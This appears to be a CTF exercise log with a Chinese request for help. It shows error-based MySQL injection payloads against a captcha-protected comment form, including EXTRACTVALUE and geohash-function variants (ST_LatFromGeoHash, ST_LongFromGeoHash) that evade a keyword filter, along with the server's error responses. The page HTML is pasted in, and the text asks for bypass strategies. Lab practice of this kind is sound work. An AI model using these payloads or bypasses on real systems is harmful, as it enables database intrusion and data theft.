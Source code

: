 id=1'
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''id=1'' LIMIT 0,1' at line 1该comment id未被占用
id=1"
该comment id未被占用
id=1 AND 1=1
该comment id未被占用
id=1 AND 1=2
该comment id未被占用

1')) AND EXTRACTVALUE(1, (SELECT flag FROM flag WHERE 1=1)) #
evil word in [extractvalue, updatexml, floor, exp], why not try geohash?

1')) AND ST_LatFromGeoHash(CONCAT(0x7e, (SELECT flag FROM flag LIMIT 1))) #
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ')) AND ST_LatFromGeoHash(CONCAT(0x7e, (SELECT flag FROM flag LIMIT 1))) #' LIMIT' at line 1该comment id未被占用

1')) AND ST_LongFromGeoHash(CONCAT(0x7e, (SELECT flag FROM flag LIMIT 1))) #
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ')) AND ST_LongFromGeoHash(CONCAT(0x7e, (SELECT flag FROM flag LIMIT 1))) #' LIMI' at line 1该comment id未被占用

1')) OR (SELECT 1 FROM (SELECT ST_LatFromGeoHash(CONCAT(0x7e,(SELECT flag FROM flag LIMIT 1))))x)
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ')) OR (SELECT 1 FROM (SELECT ST_LatFromGeoHash(CONCAT(0x7e,(SELECT flag FROM fla' at line 1该comment id未被占用

1 and ST_PointFromGeoHash(version(), 1)
该comment id未被占用

我现在在做一道sql注入的CTF题，网站源代码如下所示：有人留下comments，请告诉我comment id。<br><br> 
<!DOCTYPE html>
<html>
	<head>
		<meta charset="utf-8" />
		<title>每次提交都需要验证码</title>
	</head>
	<body>
		<form method="" ="post" action="./index.php">
			<p>验证码图片：
				<img id="captcha_img" border="1" src="./captcha.php?r=581963872" alt="" width="100" height="30">
				
				<a href="javascript:void(0)" onclick="document.getElementById('captcha_img').src='./captcha.php?r='+Math.random() ">换一个?</a>
			</p>
 
			<p>请输入图片中的内容：
				<input type="text" name="authcode" value="" />
			</p>

			<p>请输入你想看的comment id：
				<input type="text" name="id" value=1 />
			</p>
 
			<p>
				<input type="submit" value="提交" style="padding: 6px 20px;">
			</p>
 
		</form>
	</body>
 
</html>

我尝试进行注入攻击：1')) AND EXTRACTVALUE(1, (SELECT flag FROM flag WHERE 1=1)) #
结果返回：evil word in [extractvalue, updatexml, floor, exp], why not try geohash?
请给出绕过检测的攻击思路